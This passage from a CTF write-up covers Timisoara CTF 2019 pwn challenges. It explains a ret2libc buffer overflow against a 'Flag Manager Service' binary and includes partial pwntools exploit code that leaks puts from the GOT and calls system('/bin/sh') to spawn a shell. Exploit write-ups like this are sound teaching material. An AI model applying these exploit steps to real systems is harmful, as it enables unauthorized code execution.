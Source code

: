 ```python
            p = process(config["elf"])

        pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    r = lambda a: p.recv(a)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```

**Flag:** `TIMCTF{Heap_overfl0ws_are_really_B4D}`

## Flag Manager Service (pwn)

> Our spies found this flag manager service running on the ctf server. It needs a password tho, but I am sure you can handle it.  
> `nc 89.38.208.144 11115`

[Challenge Files](https://github.com/MiloTruck/CTF-Archive/tree/master/Timisoara%20CTF%202019%20Qualification%20Round/Binary%20Exploitation/Flag%20Manager%20Service%20%5B400%5D){: .btn .btn--primary}

**Solution**

Analysis of the binary with Ghidra shows this is a standard ret2libc buffer overflow. `libc-2.27.so` being provided reinforces the challenge being a ret2libc.

As usual, all ret2libc exploits have the following order:
1. **Leak the address of puts**  
Leak the address of `puts` using `puts` to output the address. Essentially, just call `puts(puts_got)`, where `puts_got` is the address of `puts`in the `GLOBAL OFFSET TABLE (GOT)`.

2. **Calculate the libc base**  
Libc base can be calculated using `puts` - `puts_offset`, where `puts` is the leaked address and `puts_offset` is the address of `puts` in libc. 

3. **Calculate system and /bin/sh address**    
With libc base value, the address of `system` and the string `/bin/sh\x00` can be calculated using `libc_base + system_offset` and `libc_base + binsh_offset` respectively.

4. **Call system(/bin/sh)**  
Overflow the buffer and call `system(/bin/sh)`, which executes shell. Before calling `system(/bin/sh)`, the `RSI` register has to be set to 0, or the call will not work.

Here's the final exploit:
```python
from pwn import *
from LibcSearcher import LibcSearcher
import sys

config = {
    "elf" : "./flag_manager01",
    "libc" : "./libc-2.27.so",
    "ld" : "./ld-2.27.so",
    "HOST" : "89.38.208.144",
    "PORT" : 11115,
}

def exploit(p):
	padding = "\x90"*88
	main = elf.symbols['main']
	puts_got = elf.got['puts']
	puts_plt = elf.plt['puts']

	pop_rdi = elf.search(asm("pop rdi ; ret")).next()
```